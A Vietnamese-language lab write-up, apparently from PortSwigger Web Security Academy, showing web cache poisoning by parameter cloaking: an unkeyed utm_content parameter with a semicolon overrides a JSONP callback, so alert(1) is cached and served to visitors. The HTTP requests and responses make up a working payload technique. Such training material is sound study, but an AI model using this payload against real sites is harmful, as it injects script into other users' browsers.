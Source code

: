 ```http
GET /?xnxx&utm_content=pornhub HTTP/2
Host: 0a9e00aa033b10248075441b00fc00f7.web-security-academy.net
```

- Gửi cho đến khi `X-Cache: hit` => đã **cache**
- Gửi lại **request** với giá trị **param** `utm_content` khác => vẫn `X-Cache: hit` => `utm_content` là **unkeyed parameter**
- Quan sát ta thấy có **request** đến

```html
<script type="text/javascript" src="/js/geolocate.js?callback=setCountryCookie">
```

```http
GET /js/geolocate.js?callback=setCountryCookie HTTP/2
Host: 0a9e00aa033b10248075441b00fc00f7.web-security-academy.net
```

```http
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Content-Length: 201

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
setCountryCookie({"country":"United Kingdom"});
```

#### Exploit
- Tạo **payload** và gửi đến **server**

```http
GET /js/geolocate.js?callback=setCountryCookie&utm_content=pornhub;callback=alert(1)// HTTP/2
Host: 0a9e00aa033b10248075441b00fc00f7.web-security-academy.net
```

```http
HTTP/2 200 OK
Content-Type: application/javascript; charset=utf-8
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=35
Age: 0
X-Cache: miss
Content-Length: 201

const setCountryCookie = (country) => { document.cookie = 'country=' + country; };
const setLangCookie = (lang) => { document.cookie = 'lang=' + lang; };
alert(1)//({"country": "United Kingdom"});
```
- Gửi đến khi được **cache** => **reload** để xem kết quả

#### Explain
- Khi **request** đến **cache server** 
    - Nó chỉ quan tâm đến `/js/geolocate.js?callback=setCountryCookie` phần được **cache**
    - Vì lần đầu nên **request** được chuyển tiếp đến **server backend**
- **Server** hỗ trợ dấu `;` để phân tách tham số 
- `callback` sẽ bị ghi đè, **server** lấy `callback` sau và trả về **response** `alert(1)//({"country": "United Kingdom"});`
- **Response** được lưu vào **cache** với **utm_content** bị loại khỏi **cache key**
- Khi người dùng **request** đến `/js/geolocate.js?callback=setCountryCookie` => trả về **cache poisoned**
